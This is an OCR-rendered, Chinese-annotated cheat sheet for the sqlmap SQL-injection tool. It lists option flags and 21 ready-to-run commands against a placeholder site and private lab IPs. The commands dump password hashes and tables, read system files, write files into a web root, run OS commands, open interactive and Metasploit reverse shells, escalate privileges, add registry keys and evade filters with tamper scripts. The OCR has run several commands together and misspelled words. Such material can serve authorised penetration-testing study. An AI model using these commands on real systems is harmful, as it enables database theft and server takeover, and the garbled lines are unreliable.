 ```shell
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 /pentest/database/sqlmap/txt/common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"
```
